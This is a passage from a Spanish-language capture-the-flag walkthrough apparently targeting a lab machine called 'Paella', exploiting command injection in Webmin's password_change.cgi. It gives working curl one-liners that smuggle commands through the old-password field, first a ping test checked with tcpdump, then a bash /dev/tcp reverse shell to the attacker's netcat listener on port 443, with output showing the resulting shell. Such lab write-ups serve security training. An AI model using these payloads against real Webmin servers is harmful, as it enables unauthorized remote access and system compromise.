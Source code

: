 Ve el resultado:
```html
<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=1000(paella) gid=1000(paella) groups=1000(paella)
```
Ahí está, parece que funciona.

Vamos a mandarnos una **traza ICMP** y la capturaremos con **tcpdump**, para saber si es posible una conexión entre la máquina víctima y la nuestra.

Inicia **tcpdump** para que capture **paquetes ICMP**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Y mandamos un **ping** desde nuestro one-liner:
```bash
curl -sk -X POST http://192.168.10.50:10000/password_change.cgi -H "Cookie: redirect=1; testing=1; sid=x; sessiontest=1" -H "Referer: http://192.168.10.50:10000/session_login.cgi" -H "Content-Type: application/x-www-form-urlencoded" --data 'user=berserk&pam=&expired=2&old=berserk|ping+-c+2+Tu_IP&new1=berserk&new2=berserk' | grep -A2 '<div class="panel-body">'
```

Observa el resultado:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
19:35:16.374119 IP 192.168.10.50 > Tu_IP: ICMP echo request, id 15431, seq 1, length 64
19:35:16.374153 IP Tu_IP > 192.168.10.50: ICMP echo reply, id 15431, seq 1, length 64
19:35:17.375134 IP 192.168.10.50 > Tu_IP: ICMP echo request, id 15431, seq 2, length 64
19:35:17.375155 IP Tu_IP > 192.168.10.50: ICMP echo reply, id 15431, seq 2, length 64
```
Funcionó. Entonces, podemos mandarnos una **Reverse Shell** desde nuestro one-liner.

<br>

<h3 id="RevShell">Obteniendo Reverse Shell Manual con one-liner</h3>

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Manda la **Reverse Shell** desde el one-liner:
```bash
curl -sk -X POST http://192.168.10.50:10000/password_change.cgi -H "Cookie: redirect=1; testing=1; sid=x; sessiontest=1" -H "Referer: http://192.168.10.50:10000/session_login.cgi" -H "Content-Type: application/x-www-form-urlencoded" --data 'user=berserk&pam=&expired=2&old=berserk|bash+-c+"bash+-i+>%26+/dev/tcp/Tu_IP/443+0>%261"&new1=berserk&new2=berserk' | grep -A2 '<div class="panel-body">'
```

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.50] 34584
bash: cannot set terminal process group (516): Inappropriate ioctl for device
bash: no job control in this shell
paella@TheHackersLabs-Paella:/usr/share/webmin/acl$ whoami
whoami
paella
```
Excelente, estamos dentro.
